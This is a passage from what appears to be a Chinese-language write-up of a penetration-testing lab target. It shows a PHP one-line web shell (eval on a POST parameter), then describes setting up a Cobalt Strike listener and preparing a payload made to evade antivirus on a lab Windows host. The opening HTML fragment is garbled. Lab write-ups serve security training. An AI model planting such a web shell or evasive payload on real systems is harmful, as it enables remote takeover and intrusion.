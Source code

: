 > <br />eval(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'shell'</span><span style="col<br /></span><span style="color: #0000BB">?></span>
> </span>
> </code>
> ==============================================================
> # 通过浏览器访问得到的结果。
> <?php
> highlight_file(__FILE__);
> eval($_POST['shell']);
> ?> 
> ```
> 
> + `dsuijaddjsfvos.php`该文件是一句话木马。接下来我们需要使用CS生成一个目录然后再进行免杀。
> 
> + 在生成木马之前我们需要创建一个监听器。
> 
> ![Screenshot_2022-07-02_07-10-45.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_07-10-45.png)
> 
> + 你可以能会疑惑为什么需要把监听地址改为**192.168.153.130**。因为Windows Server 2008有两个网卡其中一个网卡是不能和Windows 7通信，**192.168.153.130**这个网卡是可以和Windows 7通信。
> 